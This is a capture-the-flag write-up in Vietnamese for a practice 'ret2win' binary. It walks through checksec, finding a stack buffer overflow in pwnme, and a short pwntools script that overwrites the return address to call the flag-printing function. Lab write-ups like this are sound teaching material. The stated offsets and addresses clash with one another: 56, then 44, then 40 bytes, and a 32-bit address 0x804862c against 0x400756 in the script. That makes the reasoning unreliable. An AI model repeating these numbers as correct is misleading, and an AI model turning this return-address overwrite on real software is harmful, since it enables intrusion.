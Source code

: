 **1. Tìm lỗi**

Chạy thử chương trình ta có:

![run.png](photo/run.png)

Chương trình cho phép nhập vào 1 chuỗi và kết thúc ngay sau đó

Dùng lệnh chekcsec để kiểm tra:

![checksec.png](photo/checksec.png)

Ta thấy canary đang ở trạng thái disabled nên có thể khai thác qua lỗi bof

Dùng lệnh file để kiểm tra:

![file.png](photo/file.png)

Ta thấy là file elf 64bit nên mở bằng ida 64 ta được hàm main như sau:

![main.png](photo/main.png)

Source hàm pwnme:

![pwnme.png](photo/pwnme.png)

Ta thấy biến s được khai báo 32byte nhưng cho phép nhập 0x38 byte -> Có lỗi bof

![ret2win.png](photo/ret2win.png)

Ta thấy ở hàm này thì có thể lấy được nội dung của flag


**2. Ý tưởng**

Biến s cho nhập 0x38 = 56 phần tử nên thử nhập tràn biến s đến ret rồi chèn địa chỉ hàm ret2win vào

Thứ tự payload:
 - 56 byte để tràn đến ret
 - Địa chỉ hàm ret2win

**3. Viết script**

![s.png](photo/s.png)

Địa chỉ biến s hiện tại là: rbp - 0x28 -> Khoảng cách từ biến s đến ret là: 0x28 + 0x4 = 44

![add.png](photo/add.png)

Địa chỉ hàm win là: 0x804862c

Ta có script như sau:

```
from pwn import *

r = process("./ret2win")

ret2win = 0x400756
payload = b'a'*40 + p64(ret2win)
r.sendafter('> ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

Flag: ROPE{a_placeholder_32byte_flag!}
